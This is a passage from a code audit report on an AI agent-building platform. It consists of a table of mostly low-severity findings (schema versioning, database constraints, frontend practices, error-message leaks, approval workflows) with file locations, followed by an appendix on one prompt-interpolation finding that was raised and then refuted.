| gap-agentspec-schema-evolution-4 | medium | Integrations & reliability | `src/lib/tools.ts:965` | Tools removed or renamed in TOOLS silently disappear from published agents, while the prompt still tells the model they exist |
| gap-agentspec-schema-evolution-12 | medium | Data & persistence | `src/lib/types.ts:60` | Input types are re-guessed by regex on every read, so a code change silently changes the inputs of published versions; scheduled runs skip required-input checks |
| quality-3 | medium | Engineering practice & operability | `src/lib/types.ts:83` | No runtime validation of any request body or LLM output — AgentSpec is a TypeScript-only contract |
| gap-agentspec-schema-evolution-1 | medium | Data & persistence | `src/lib/types.ts:83` | AgentSpec has no schemaVersion and no read path upgrades or validates stored specs |
| data-30 | low | Data & persistence | `.env.example:2` | Connection-string and extension hygiene: Prisma-style `?schema=public`, unneeded pgcrypto, setup script without TLS |
| data-20 | low | Data & persistence | `db/schema.sql:120` | Weak referential/domain constraints: published_ver not an FK, approvals not unique per tool_use, free-text trigger, unchecked run_steps.status |
| data-28 | low | Data & persistence | `db/schema.sql:128` | orgs.timezone is free text with no setter or validation; an invalid value would break every run start |
| gap-approval-governance-and-notification-delivery-17 | low | Security & tenancy | `db/schema.sql:212` | Deleting an agent destroys its decided approvals (governance evidence) through ON DELETE CASCADE |
| gap-tenant-lifecycle-offboarding-17 | low | Data & persistence | `db/schema.sql:235` | Deleting the sending org cascades away share records the recipient tenant relies on for provenance |
| storage-25 | low | Storage & files | `Dockerfile:23` | Dockerfile: storage lives in the container FS with no VOLUME, devDependencies and test scripts ship in the runtime image |
| gap-approval-governance-and-notification-delivery-21 | low | Engineering practice & operability | `docs/TECHNICAL_DESIGN_DOCUMENT.md:489` | Documented programmatic approval API and API-client approval flow do not exist; v1 callers cannot learn when a held run is decided |
| ops-26 | low | Engineering practice & operability | `docs/TECHNICAL_DESIGN_DOCUMENT.md:510` | README and TDD make claims the code does not honour |
| ai-19 | low | LLM layer & cost | `package.json:17` | Anthropic SDK pinned at 0.32.1 (2024-era): no structured outputs, adaptive thinking/effort, compaction, context editing, tool runner or typed responses in use |
| quality-21 | low | Engineering practice & operability | `package.json:18` | Dependency hygiene: type package in prod deps, dev-only bundler, hand-rolled protocol clients |
| ops-23 | low | Engineering practice & operability | `package.json:45` | Node runtime is loosely pinned (>=22.9) with no .nvmrc; local dev on Node 25 diverges from the node:22 image |
| frontend-34 | low | Frontend | `src/app/(app)/agents/[id]/page.tsx:21` | SQL duplicated between server components and API routes; no data-access layer |
| frontend-36 | low | Frontend | `src/app/(app)/connections/page.tsx:282` | Vendor-specific and demo defaults shipped to every tenant |
| frontend-29 | low | Frontend | `src/app/(app)/connections/page.tsx:538` | Native confirm()/alert() used for destructive actions |
| frontend-37 | low | Frontend | `src/app/(app)/connections/page.tsx:1196` | API secrets typed into a password field without autocomplete control |
| frontend-33 | low | Frontend | `src/app/(app)/layout.tsx:19` | Layout re-queries badge counts on every navigation and InviteBanner refetches separately |
| quality-19 | low | Engineering practice & operability | `src/app/(app)/sandbox/google-adk/page.tsx:827` | Model identifiers hard-coded across UI, parsers and routes with deprecated ids |
| frontend-26 | low | Frontend | `src/app/(app)/sandbox/page.tsx:707` | Styling system fragmented: 5.4k-line global CSS plus 1,215 inline styles and two palettes |
| gap-agentspec-schema-evolution-10 | low | Security & tenancy | `src/app/api/agents/[id]/diff/route.ts:55` | Diff labels historical versions with the current registry risk, and unknown or removed tools default to 'low' |
| quality-18 | low | Engineering practice & operability | `src/app/api/agents/[id]/export/route.ts:15` | Route `params` typed as Promise (Next 15 signature) on Next 14.2.35 |
| runtime-30 | low | Runtime & scalability | `src/app/api/agents/[id]/schedule/route.ts:28` | Timezone used to display next run differs from the one used to fire it |
| gap-approval-governance-and-notification-delivery-22 | low | Engineering practice & operability | `src/app/api/approvals/route.ts:44` | SoD rule is implemented twice (decisionCheck and the list endpoint) with duplicated message text and no tests |
| surface-20 | low | Security & tenancy | `src/app/api/apps/[id]/proxy/[[...path]]/route.ts:82` | Upstream/exception messages are returned to unauthenticated clients |
| ai-28 | low | LLM layer & cost | `src/app/api/compile/route.ts:23` | Provider/internal error messages are returned verbatim to browser clients |
| integrations-16 | low | Integrations & reliability | `src/app/api/connections/[id]/heartbeat/route.ts:25` | pg Client leaks when connect succeeds but the probe query fails (heartbeat and connection test) |
| auth-30 | low | Security & tenancy | `src/app/api/connections/[id]/route.ts:12` | Connection deletion and app deletion return success and write audit rows even when the resource did not exist in the caller's org |
| gap-public-api-contract-and-commercial-controls-18 | low | Security & tenancy | `src/app/api/connections/oauth/[provider]/route.ts:37` | Webhook signing secrets are plaintext in connections.config, readable by every member, and have no rotation |
| gap-agentspec-schema-evolution-21 | low | Engineering practice & operability | `src/app/api/cron/route.ts:68` | Derived schedule jsonb from older parser versions is fed to the current nextRun(); recomputing it is a manual script |
| gap-approval-governance-and-notification-delivery-19 | low | Security & tenancy | `src/app/api/cron/route.ts:104` | Scheduled runs keep executing as a removed member, and SoD compares against that departed identity |
| storage-23 | low | Storage & files | `src/app/api/documents/route.ts:28` | Stored filenames use `Date.now()` prefix: same-millisecond collisions overwrite another user's file |
| gap-tenant-lifecycle-offboarding-16 | low | Integrations & reliability | `src/app/api/members/[id]/route.ts:53` | Member removal is non-transactional, notifies nobody, and has no suspension state |
| data-31 | low | Data & persistence | `src/app/api/runs/[id]/route.ts:16` | `select *` on wide rows and fetch-then-discard of large jsonb |
| ops-28 | low | Engineering practice & operability | `src/app/api/sandbox/run/route.ts:26` | No feature-flag or staged-rollout mechanism; unfinished subsystems are exposed to all tenants by default |
| auth-29 | low | Security & tenancy | `src/app/api/shares/[id]/route.ts:51` | Accepted shares keep cross-tenant swarm worker agent ids in the copied spec |
| gap-agentspec-schema-evolution-14 | low | Data & persistence | `src/app/api/skills/[id]/route.ts:88` | Skill deletion counts only drafts as affected; published versions lose the skill silently |
| runtime-32 | low | Runtime & scalability | `src/app/api/v1/agents/[id]/invoke/route.ts:246` | Output DLP on the public invoke path is a no-op and input is masked twice |
| gap-public-api-contract-and-commercial-controls-20 | low | Security & tenancy | `src/app/api/v1/agents/[id]/invoke/route.ts:261` | Public invoke response exposes internal cost, model and DLP detections to unauthenticated callers |
| ops-25 | low | Engineering practice & operability | `src/app/api/v1/agents/[id]/invoke/route.ts:279` | Error responses leak internal exception messages to clients |
| frontend-19 | low | Frontend | `src/app/globals.css:3089` | Low-contrast small text and hover-only reveal of row actions |
| frontend-35 | low | Frontend | `src/app/login/page.tsx:26` | Login has no <form>, no error handling and no autocomplete hints |
| frontend-20 | low | Frontend | `src/components/AppCanvasViewer.tsx:78` | Hydration hazards: localStorage in useState initializer and bare toLocale* in server components |
| frontend-25 | low | Frontend | `src/components/Builder.tsx:8` | No code splitting: every tab, modal and the tour ship on first load |
| frontend-24 | low | Frontend | `src/components/Builder.tsx:33` | God components with mixed concerns and copy-pasted sandbox pages |
| frontend-32 | low | Frontend | `src/components/Builder.tsx:86` | Misleading counts and status text in the Builder header |
| frontend-18 | low | Frontend | `src/components/Builder.tsx:455` | Emoji used as functional UI icons |
| frontend-31 | low | Frontend | `src/components/Builder.tsx:1062` | Index keys on editable/reorderable lists |
| frontend-30 | low | Frontend | `src/components/Builder.tsx:1243` | Not internationalisation-ready: hard-coded strings, manual plurals, pinned locale |
| quality-20 | low | Engineering practice & operability | `src/lib/adk-sandbox.ts:422` | No structured logging or request correlation; console.* and silent catches are the diagnostic surface |
| gap-agentspec-schema-evolution-18 | low | Engineering practice & operability | `src/lib/agent-exporter.ts:1512` | Export bundles carry no format or schema version, so imports cannot be upgraded deterministically |
| quality-17 | low | Engineering practice & operability | `src/lib/agent-exporter.ts:1588` | Stale and misleading comments/documentation inside the exporter |
| runtime-29 | low | Runtime & scalability | `src/lib/ai.ts:35` | Anthropic client cache keyed by raw API key in a module-level Map that is never evicted |
| data-32 | low | Data & persistence | `src/lib/apps.ts:218` | apps.permissions default diverges between schema and code and doubles as a magic 'proxy' flag |
| gap-tenant-lifecycle-offboarding-15 | low | Data & persistence | `src/lib/apps.ts:251` | Tenant data lives in stores outside schema.sql that a purge derived from the schema would miss (in-memory apps store, runtime-created eval tables) |
| integrations-27 | low | Integrations & reliability | `src/lib/mcp-client.ts:177` | 38 empty/swallowed catch blocks and 44 `.catch(() =>` sites; no structured logging or correlation ids on outbound calls |
| runtime-28 | low | Runtime & scalability | `src/lib/orchestrator.ts:74` | Missing uniqueness for idempotency: approvals(run_id, tool_use_id) and run_steps(run_id, idx); idx assigned by read-then-write |
| gap-agentspec-schema-evolution-19 | low | LLM layer & cost | `src/lib/orchestrator.ts:234` | String-typed maxSteps turns the loop bound into string concatenation ("12" + 4 = "124") |
| runtime-27 | low | Runtime & scalability | `src/lib/orchestrator.ts:360` | No approval expiry, escalation or limit on runs parked in awaiting_approval |
| gap-approval-governance-and-notification-delivery-13 | low | Frontend | `src/lib/orchestrator.ts:366` | Approval and failure messages have no deep link, run id or workspace name; the TDD claims 'approval links & payload diff' |
| gap-approval-governance-and-notification-delivery-18 | low | Engineering practice & operability | `src/lib/orchestrator.ts:466` | Actions after resume are audited as the approver: 'Run completed' and subsequent steps attributed to whoever clicked Approve |
| gap-approval-governance-and-notification-delivery-20 | low | Frontend | `src/lib/orchestrator.ts:490` | Recipient routing mixes up triggers: 'schedule run-now' failures broadcast to all approvers, and approval emails put every approver in one To: header |
| gap-public-api-contract-and-commercial-controls-19 | low | LLM layer & cost | `src/lib/pricing.ts:17` | The rate card is a code constant with no version on the run and no markup or platform-fee dimension |
| runtime-31 | low | Runtime & scalability | `src/lib/schedule.ts:72` | Schedule that can never fire silently disarms the agent |
| quality-15 | low | Engineering practice & operability | `src/lib/schedule.ts:112` | Unattended-run input key derivation is duplicated inline instead of using inputKey() |
| data-29 | low | Data & persistence | `src/lib/spend.ts:37` | Money crosses the boundary as float8 and is compared in JavaScript doubles |
| gap-public-api-contract-and-commercial-controls-21 | low | Integrations & reliability | `src/lib/spend.ts:46` | budgetCheck sends the spend-cap notification inside the request path with a check-then-act race |
| gap-agentspec-schema-evolution-20 | low | Frontend | `src/lib/types.ts:102` | trigger.type 'event' is part of the schema, publishable and diffed as 'weakens', but no component ever fires it |

## Appendix B. Raised and refuted during verification

These were reported by a reviewer and then refuted when a verifier checked the code. They are listed so a reader knows they were examined.

| Id | Location | Title | Why refuted |
|---|---|---|---|
| ai-29 | `src/app/api/skills/synthesize/route.ts:49` | Skill synthesis endpoint accepts arbitrary caller-supplied context that is interpolated straight into the synthesizer prompt | The code matches the description (synthesize/route.ts:49-65 accepts free-text context when there is no approvalId), but it crosses no trust boundary. The route only returns a draft to the same authenticated member (route.ts:68-69) and persists nothing. It runs on that member's own workspace key. |